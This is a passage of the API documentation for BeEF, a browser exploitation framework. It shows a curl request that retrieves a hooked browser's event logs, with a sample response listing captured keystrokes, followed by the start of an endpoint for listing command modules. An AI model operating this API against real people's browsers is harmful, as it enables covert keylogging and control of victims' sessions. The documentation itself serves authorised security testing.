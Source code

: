 ### Example

#### Request

```bash
curl http://beefserver.com:3000/api/logs/nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`
```

#### Response

```
{
    "logs_count": 13,
    "logs": [
        {
            "id": 1,
            "date": "2012-03-20T16:14:11+01:00",
            "event": "127.0.0.1 just joined the horde from the domain: 127.0.0.1:3000",
            "type": "Zombie"
        },
        {
            "id": 16,
            "date": "2012-03-20T16:40:18+01:00",
            "event": "6.071s - [User Typed] "an" > input#imptxt(Important Text)",
            "type": "Event"
        },
        {
            "id": 17,
            "date": "2012-03-20T16:40:19+01:00",
            "event": "7.086s - [User Typed] "tisnatc" > input#imptxt(Important Text)",
            "type": "Event"
        },
        {
            "id": 18,
            "date": "2012-03-20T16:40:20+01:00",
            "event": "8.099s - [User Typed] "hor" > input#imptxt(Important Text)",
            "type": "Event"
        }
    ]
}
```
## List Command Modules

### Handler
* **Endpoint**
  * `GET /api/modules?token={token}`
* **Description**
  * List **all** available BeEF command modules.
* **Request Components**
  * N/A
* **Query Parameters**
  * `{token}` - your authentication token (see [Authentication](#authentication)).
